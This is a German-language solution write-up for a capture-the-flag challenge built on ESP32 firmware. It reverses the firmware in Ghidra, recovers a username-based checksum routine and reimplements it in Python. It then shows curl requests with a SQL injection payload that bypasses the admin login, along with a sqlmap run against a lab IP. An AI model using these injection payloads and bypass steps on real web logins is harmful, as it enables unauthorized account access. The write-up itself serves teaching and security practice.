

## Intended Solution zu ESPecially a lot of fun

## Ausgangssituation
Es wird die `.elf`, als auch die `.bin` Datei zum flashen rausgegeben. Allerdings mit zwei Modifikationen:
 - Die Flag ist hardcoded als `CSCG{TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG}` eingetragen
 - Das Passwort des Admins `s3cret_admin` ist hardcoded auf `s3cret_passw0rd_f0r_admin` gesetzt.

In der `remote Instanz` ist die Flag, als auch das Admin Passwort geändert.

## Analyse
Da wir die `.elf`, als auch die `.bin` rausgeben, haben die Teilnehmer die Möglichkeit auf der unstripped `.elf` ihre Analyse durchzuführen. Die `file` Ausgabe verrät:
```
firmware.elf: ELF 32-bit LSB executable, Tensilica Xtensa, version 1 (SYSV), statically linked, with debug_info, not stripped
```

Allein dieser Eintrag wird vermutlich auf den [CTF Writeup Post von einem ESP32](https://phil242.wordpress.com/2017/02/07/inso2017-iof-400/) führen. IDA Pro hat keine Unterstützung für diese Instruktions, aber 2017 gabs ja auch noch kein Ghidra. Dafür hat der Teilnehmer hier bereits schon das Instruktion Set, das später nochmal hilfreich wird. Der findige Teilnehmer wird hoffentlich die [Ghidra Erweiterung für Xtensa](https://github.com/yath/ghidra-xtensa) finden. Damit kann die ELF einigermaßen gut geladen werden. Nach ca. 20 minuten Analyse kann die Binary durchsucht werden.

In der Zwischenzeit schaut man sich hoffentlich `strings` an und findet dort SQL statements:
```
theuser@DESKTOP-IHD33QF:~/main/cscg20-finals/challenges/especially-a-lot-of-fun/solution$ strings firmware.elf | grep "CREATE TABLE"
CREATE TABLE login (id INTEGER, username, password);
CREATE TABLE notes (id INTEGER, username, note);
```
Sowie:
``` 
theuser@DESKTOP-IHD33QF:~/main/cscg20-finals/challenges/especially-a-lot-of-fun/solution$ strings firmware.elf | grep "INSERT INTO"
INSERT INTO login VALUES (%d, '%s', '%s');
INSERT INTO notes VALUES (1, 'JohnDoe', 'This is a sample note. Get the note of the admin. It might contain the flag');
INSERT INTO notes VALUES (3, 'JohnDoe', 'Second note :)');
INSERT INTO notes VALUES (2, 's3cret_admin', 'Flag: %s');
```

Nun ist man in der Lage die vom ESP gehostete Webseite zu besuchen: 


Dort fällt auf, dass in der `custom.js` eine Checksum gesetzt wird, die als hidden Formelement mitgegeben wird. Für andere User ist aber keine Checksum gegeben.
```
function updateChecksum(val) {
if (val == "JohnDoe")
{
    document.getElementById("checksum").value = "3a9d0a";
}
```
Daraus resultiert folgende POST Request an `/login`:
```
username=JohnDoe&password=john123&checksum=3a9d0a
```
Das verändern des Usernamens sorgt für `Invalid Checksum!`, während ein anderes Passwort die Fehlermeldung `Invalid credentials or error!` provoziert. Clever wie die Teilnehmer sind wird direkt eine SQL Injection im Passwort Feld getestet:
```
theuser@DESKTOP-IHD33QF:~/main/cscg20-finals/challenges/especially-a-lot-of-fun/solution$ curl -X POST http://192.168.178.75/login --data "username=JohnDoe&password=john123' or 1=1 -- f&checksum=3a9d0a"
<!DOCTYPE html>
<html>
[...]
```
Damit ist man also eingeloggt. Aber man kommt nicht an die Flag des Admins ran. Exfiltration über die Blind SQL Injection schlägt (zumindest bei mir) fehl, sowohl von Hand, als auch über SQLMap:
```
theuser@DESKTOP-IHD33QF:~/main/cscg20-finals/challenges/especially-a-lot-of-fun/solution$ sqlmap -u http://192.168.178.75/login --data "username=JohnDoe&password=john123&checksum=3a9d0a" --ignore-code=401 -p "password" --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:56:28

[18:56:28] [INFO] resuming back-end DBMS 'sqlite'
[18:56:28] [INFO] testing connection to the target URL
[18:56:28] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=JohnDoe&password=john123' AND 4851=4851 AND 'PpGx'='PpGx&checksum=3a9d0a
---
[18:56:28] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:56:28] [INFO] fetching tables for database: 'SQLite_masterdb'
[18:56:28] [INFO] fetching number of tables for database 'SQLite_masterdb'
[18:56:28] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[18:56:28] [INFO] retrieved:
[18:56:28] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[18:56:28] [WARNING] unable to retrieve the number of tables for database 'SQLite_masterdb'
[18:56:28] [ERROR] unable to retrieve the table names for any database
```

Von Hand:
Injection via: 

```
(SELECT hex('A') from notes)>0 -- f
```
funktioniert. Injection mit 

```
(SELECT hex(substr('A',1,1)) from notes)>0 -- f
```
schlägt fehl. Denke in meiner `sqlite3` Implementierung ist `substr` kaputt. Aber ist sogar gut, so kann man die Flag nicht direkt extracten. Falls es doch möglich ist, bitte melden!

Man ist also gezwungen den richtigen Usernamen anzugeben und dann mit der Injection den Passwortcheck zu überspringen. Aber dazu muss man die richtige Checksum kennen. Auf zum Reversen! Da die ELF nicht gestripped ist, sogar sehr schön.

```        
400d238b e5 81 ff        call8      getChecksum ; Berechne Checksum aus Username
[...]
400d23ba 0c 0b           movi.n     a11,0x0
400d23bc 81 61 f7        l32r       a8,->strtol                                      = 4005681c ; Parse Checksum als Hex aus Checksum-Parameter
[...]
400d23cd 77 16 39        beq        a6,a7,LAB_400d240a ; Prüfe ob Gleich

[...]
400d23d9 25 f8 48        call8      String::String
400d23dc b1 57 f7        l32r       a11,PTR_s_Invalid_checksum!_400d0138             = 3f4015a1 ; Wenn nicht gleich: Fehlermeldung "Invalid Checksum"
```
Wir müssen also rausfinden wie die `getChecksum` Methode funktioniert und aus dem Usernamen die Checksum berechnet. Die Methode ist sogar kurz genug um hier abgebildet zu werden:
```
                             **************************************************************
                             * getChecksum(char const*)                                   *
                             **************************************************************
                             undefined __stdcall getChecksum(char * param_1)
             undefined         a2:1           <RETURN>
             char *            a2:4           param_1
                             _Z11getChecksumPKc                              XREF[3]:     Entry Point(*), 
                             getChecksum                                                  _M_invoke:400d238b(*), 
                                                                                          .debug_frame::00000138(*)  
        400d1ba8 36 41 00        entry      a1,0x20
                             Strlen
        400d1bab 20 a2 20        mov        a10,param_1
        400d1bae 81 25 f9        l32r       a8,->strlen                                      = 400014c0
        400d1bb1 e0 08 00        callx8     a8
        400d1bb4 0c 08           movi.n     a8,0x0
        400d1bb6 cd 08           mov.n      a12,a8
                             LAB_400d1bb8                                    XREF[1]:     400d1bd6(j)  
        400d1bb8 a7 a8 1d        bge        a8,a10,LAB_400d1bd9                              a8 = Counter
        400d1bbb 8a 92           add.n      a9,param_1,a8                                    Get offset into buffer
        400d1bbd b2 09 00        l8ui       a11,a9,0x0                                       Load data from offset into a11
        400d1bc0 b0 9b 11        slli       a9,a11,0x1b                                      c << 1b
        400d1bc3 b0 99 c0        sub        a9,a9,a11
        400d1bc6 b0 99 e0        subx4      a9,a9,a11
        400d1bc9 c0 b9 11        slli       a11,a9,0x1c
        400d1bcc 90 9b c0        sub        a9,a11,a9
        400d1bcf 80 99 82        mull       a9,a9,a8
        400d1bd2 1b 88           addi.n     a8,a8,0x1
        400d1bd4 9a cc           add.n      a12,a12,a9
        400d1bd6 86 f7 ff        j          LAB_400d1bb8
                             LAB_400d1bd9                                    XREF[1]:     400d1bb8(j)  
        400d1bd9 2d 0c           mov.n      param_1,a12
        400d1bdb 1d f0           retw.n
        400d1bdd 00 00 00        ill

```
Leider funktioniert der Decompiler nicht, da der Dude von der `Xtensa Ghidra` Integration nicht alle Instructions abgebildet hat. Toll.

Es wird `strlen` auf dem Username aufgerufen und dann jeweils Char für Char in einer Schleife die Buchstaben abgerufen. Aber was machen diese ganzen komischen Opcodes? Wenn man es laut Instruction Set übersetzt, kommt in etwa sowas bei raus:
```
i = current Index
a8 = i
a11 = data[i]
a9 = a11 << 0x1b
a9 = a9 - a11
a9 = (a9 >> 2) - a11
a11 = (a9 << 0x1c) & 0xffffffff
a9 = a9 * a8
a8 += 1
a12 += a9
```
Es passt jedenfalls nicht auf die Checksum. Habe auch nach einigem Grübeln über die Instructions nicht den Fehler gefunden. Vielleicht würde der Decompiler ja was hübscheres auswerfen. Aber anscheinend sind `entry`, `callx8` und ` retw.n` nicht implementiert. Ich war so frei und habe `entry` und `callx8` (ist ja der strlen call) genopped, während ich `retw.n` auf `ret.n` gepatched habe. Damit sind alle Instructions unterstützt und es ergibt sich die Lösung:
```
int getChecksum(char *param_1)

{
  int iVar1;
  int iVar2;
  int in_a10;
  int iVar3;
  
  iVar1 = 0;
  iVar3 = 0;
  while (iVar1 < in_a10) {
    iVar2 = (uint)(byte)param_1[iVar1] * 0x735 * iVar1;
    iVar1 = iVar1 + 1;
    iVar3 = iVar3 + iVar2;
  }
  return iVar3;
}
```

In Python:
```
def calcChecksum(data):
    a12 = 0
    for i in range(0, len(data)):
       a12 += ord(data[i])*0x735*i
    return a12
```

Damit kann man eine gültige Checksum für `s3cret_admin` berechnen und den Passwort-Check bypassen:
```
theuser@DESKTOP-IHD33QF:~/main/cscg20-finals/challenges/especially-a-lot-of-fun/solution$ curl -X POST http://192.168.178.75/login --data "username=s3cret_admin&password=john123' or 1=1 -- f&checksum=c14445"
<!DOCTYPE html>
<html>
  <head>
    <script src="src/jquery-3.5.1.slim.min.js"></script>
    <script src="src/bootstrap.bundle.min.js"></script>
    <link rel="stylesheet" type="text/css" href="src/bootstrap.min.css" />

    <script src="src/custom.js"></script>
  </head>

  <body>
    <div class="jumbotron jumbotron-fluid">
      <div class="container">
        <h1 class="display-4">ESPecially a lot of fun</h1>
        <p class="lead">Notes of user: s3cret_admin</p>
      </div>
    </div>
    <div class="container">
      <div class="card"><div class="card-body">Flag: CSCG{TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG_TESTFLAG}</div></div>
    </div>
  </body>
</html>
```


